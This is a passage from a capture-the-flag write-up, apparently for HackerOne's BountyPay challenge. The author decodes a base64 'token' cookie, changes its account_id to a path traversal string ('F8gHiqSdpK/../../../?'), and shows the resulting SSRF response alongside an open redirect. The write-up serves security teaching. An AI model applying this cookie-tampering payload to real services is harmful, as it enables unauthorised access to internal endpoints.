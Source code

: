There are few interesting things here:
- URL to `https://api.bountypay.h1ctf.com/api/accounts/F8gHiqSdpK/statements?month=01&year=2020` in HTTP response
- `token` cookie with base64 encoded data in HTTP request

Let's visit `api.bountypay.h1ctf.com` page:

{F861503}

After clicking [REST API](https://api.bountypay.h1ctf.com/redirect?url=https://www.google.com/search?q=REST+API) hyperlink - it first requests to `/redirect` endpoint and then - returns HTTP 302 code as response which redirects us to page provided in *url* parameter.

```
HTTP/1.1 302 Found
Server: nginx/1.14.0 (Ubuntu)
Date: Wed, 10 Jun 2020 00:37:13 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Location: https://www.google.com/search?q=REST API
Content-Length: 0
```

Let's get back to **token** cookie. After decoding base64 we can find the same string (*account_id*) which is used in request to `api.bountypay.h1ctf.com`

```json
{
    "account_id": "F8gHiqSdpK",
    "hash": "de235bffd23df6995ad4e0930baac1a2"
}
```

By modifying *account_id* value to **F8gHiqSdpK/../../../?** and base64 encode whole string again - web application should request directly to `https://api.bountypay.h1ctf.com/` because of [Path Traversal](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/05-Authorization_Testing/01-Testing_Directory_Traversal_File_Include). 

Response from `/statements` endpoint that shows HTML code of `api.bountypay.h1ctf.com` page - which proves [SSRF vulnerability](https://owasp.org/www-community/attacks/Server_Side_Request_Forgery).
```json
{
    "url": "https:\/\/api.bountypay.h1ctf.com\/api\/accounts\/F8gHiqSdpK\/..\/..\/..\/?\/statements?month=01&year=2020",
    "data": "<!DOCTYPE html>\n<html lang=\"en\">\n<head>\n    <meta charset=\"utf-8\">\n    <meta http-equiv=\"X-UA-Compatible\" content=\"IE=edge\">\n    <meta name=\"viewport\" content=\"width=device-width, initial-scale=1\">\n    <title>BountyPay | Login<\/title>\n    <link href=\"\/css\/bootstrap.min.css\" rel=\"stylesheet\">\n<\/head>\n<body>\n<div class=\"container\">\n    <div class=\"row\">\n        <div class=\"col-sm-6 col-sm-offset-3\">\n            <div class=\"text-center\" style=\"margin-top:30px\"><img src=\"\/images\/bountypay.png\" height=\"150\"><\/div>\n            <h1 class=\"text-center\">BountyPay API<\/h1>\n            <p style=\"text-align: justify\">Our BountyPay API controls all of our services in one place. We use a <a href=\"\/redirect?url=https:\/\/www.google.com\/search?q=REST+API\">REST API<\/a> with JSON output. If you are interested in using this API please contact your account manager.<\/p>\n        <\/div>\n    <\/div>\n<\/div>\n<script src=\"\/js\/jquery.min.js\"><\/script>\n<script src=\"\/js\/bootstrap.min.js\"><\/script>\n<\/body>\n<\/html>"
}
```
